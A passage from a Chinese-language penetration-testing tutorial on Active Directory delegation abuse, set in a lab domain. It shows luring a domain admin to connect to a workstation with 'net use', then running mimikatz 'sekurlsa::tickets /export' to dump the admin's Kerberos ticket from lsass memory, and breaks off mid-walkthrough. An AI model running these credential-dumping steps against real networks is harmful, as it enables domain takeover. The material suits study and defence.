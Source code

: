 在 win7 上访问域控，提示拒绝访问。如图所示：

![截图](3d977232bd5e2ed1f3b09d2026cc1fa0.png)

#### （1）诱使域管理员访问机器

此时我们用域管理员 test 身份远程访问 win7 机器，这里 test 登录在域内任何一台机器均可，不一定非得是域控。或者也可以使用 ipc 连接，如下：

```
net use \\win7.xie.com /user:xie\test P@ssword1234
```

如图域管理员 test 远程连接 win7 机器。

![截图](592a9bfe3538b2dbae8244314bcdbdad.png)

**此时，在主机 win7 的 lsass.exe 内存中就会有域管理员 test 的 TGT 认购权证**。我们**在 win7 上以管理员权限运行 mimikatz**，执行以下命令导出内存中的票据：

```
privilege::debug
#导出票据
sekurlsa::tickets /export
```

如图所示，使用 mimikatz 导出内存中的票据：
